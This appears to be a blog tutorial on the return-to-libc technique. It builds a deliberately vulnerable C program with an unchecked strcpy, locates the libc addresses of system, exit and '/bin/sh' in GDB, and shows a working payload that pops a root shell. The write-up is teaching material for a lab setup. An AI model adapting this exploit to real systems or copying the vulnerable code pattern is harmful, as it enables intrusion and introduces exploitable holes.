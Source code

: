 ```yaml
---
title: "The technique return to libc"
description: sam.png
tags: ["In this article I present to you how to exploit a vulnerability to bypass the NX system with the technique of return to libc."]
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prerequisites :
- Have the basics in `pwn` to understand and attack a basic buffer overflow.
- And a computer, eh eh!

Today I would like to present an article for a new technique of `Buffer Overflow`. A relatively fun and very simple technique, are you interested? If so, let's go!

# What is the technique of return to libc ?

What we saw last time in relation to the `Buffer Overflow` to execute a` shellcode`, the `stack` had to be executable.

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
The `R` simply indicates that the stack is read and the letter` W` corresponds concretely to writing on the stack and finally the letter `E` corresponds to the executable stack, and it is thanks to this system that we can execute a shellcode because it is the processor which executes our shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

In fairly specific cases, the stack is not executable so it's almost impossible to have the program execute a shellcode for `pop` a shell for example. So the experts found a solution called the `return to libc` technique, which allows you to use functions from` libc`, such as the `system();` function and then use it against the program.

# Convenient !

(For this part, we will deactivate the `ASLR`, because the technique of returning to libc works only if the stack is not executable and the ASLR is not activated.)

Here's a little script in C that doesn't do much:

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
A basic program that doesn't do much, but the vulnerability is in the `strcpy();` function. I suppose you know that functions like `strcpy();`, `strcat();` etc ... are not at all secure so there is a system called `FORTIFY_SOURCE` which allows you to replace functions with much more secure functions.

Then, a small compilation is necessary:

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(The `E` flag is not there, so the stack is no longer executable at all.). If we try to run the program after compilation, it works, but in memory things are happening.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*17')
    Your name : AAAAAAAAAAAAAAAAA
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*18')
    Your name : AAAAAAAAAAAAAAAAAA
    segmentation fault (core dumped)
    
We can see that the program crashes after 17 characters, so the `OFFSET` corresponds exactly to 17 characters, if we overflow, the` sEIP` backup will be completely overwritten and the program will crash automatically.

We will launch `GDB` (GNU Debugger), and we will look for the address of the` system (); `,` exit(); `function and finally a string like` /bin/sh` which will allow us to launch this particular command.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
So, we managed to capture the addresses of `system();`, `exit()` and finally of the string `"/bin/sh "`.

- `system();` : `0xf7e17660`
- `exit();`   : `0xf7e0a6f0`
- `/bin/sh`   : `0xf7f54f68`

![forthebadge made-with-python](https://fundacion-sadosky.github.io/guia-escritura-exploits/esoteric/imagenes/ret-2-libc.png)

Now just use the addresses we captured against the program to `pop` a shell. If we took the `exit()` function, it's just to exit the shell correctly, because if we don't put the `exit();` function, and we leave the shell, it will display a nice `segfault`, so not very nice to see, you don't have to put it anyway, it's completely optional.

    root@0XEX75:~/libc# ./libc $(python -c 'print "A"*22 + "\x60\x76\xe1\xf7" + "\xf0\xa6\xe0\xf7" + "\x68\x4f\xf5\xf7"')
    Your name : AAAAAAAAAAAAAAAAAAAAAA`vhO
    # whoami
    root
    # id
    uid=0(root) gid=0(root) groupes=0(root)

![forthebadge made-with-python](https://media.giphy.com/media/XqXDNFZREKMBq/giphy.gif)

# CONCLUSION !

Here we are, we finally come to the end of this article which, I hope, will have you more. I tried to explain to you how the `technique of returning to libc` works, don't hesitate to contact me on social networks, I'm always available to answer you.
